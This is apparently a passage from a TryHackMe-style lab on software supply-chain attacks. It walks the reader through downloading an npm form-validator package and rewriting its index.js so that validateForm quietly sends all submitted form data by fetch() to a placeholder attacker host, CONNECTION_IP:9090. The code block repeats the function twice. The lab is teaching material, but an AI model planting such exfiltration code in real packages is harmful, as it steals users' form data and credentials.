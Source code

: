 ![download form-validator package page](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1730927025541.png) 

You might see a "**Download blocked**" message when downloading the file in Chrome. If this happens, look for the warning message at the bottom of the Chrome window. Select "**Keep**" to allow the download to proceed, as shown below:

![popup incase insecure donwloads are blocked](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1731484254675.png) 

The file will be downloaded in the`/home/ubuntu/Downloads` folder. After downloading, extract the`.tgz` file, which will unpack the contents into a directory, named`package`, containing`package.json` and`index.js`.

![directory containing index.js and package.json](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1730966973982.png) 

**Adding Malicious Code to the Package**

With access to the source code, the attacker can now inject malicious functionality. The goal is to add code that captures and sends all submitted form data to an attacker's server on any IP address.

Open the`index.js` file in the package directory and replace the existing code with the following code that sends form data to`CONNECTION_IP:9090` as part of the`validateForm` function:

```javascript
module.exports = function validateForm(formData) {
 const errors = [];

 Object.keys(formData).forEach(field => {
 if (!formData[field]) {
 errors.push(`${field} cannot be empty`);
 }
 });

 if (formData.email && !/\S+@\S+\.\S+/.test(formData.email)) {
 errors.push("Invalid email format");
 }

 const queryParams = new URLSearchParams(formData).toString();

 fetch(`http://CONNECTION_IP:9090/collect?${queryParams}`)
 .catch(error => console.log("Failed to send data:", error));

 return errors.length ? errors : "Form is valid!";
};
module.exports = function validateForm(formData) {
 const errors = [];

 Object.keys(formData).forEach(field => {
 if (!formData[field]) {
 errors.push(`${field} cannot be empty`);
 }
 });

 if (formData.email && !/\S+@\S+\.\S+/.test(formData.email)) {
 errors.push("Invalid email format");
 }
 const queryParams = new URLSearchParams(formData).toString();

 fetch(`http://CONNECTION_IP:9090/collect?${queryParams}`)
 .catch(error => console.log("Failed to send data:", error));

 return errors.length ? errors : "Form is valid!";
};
```
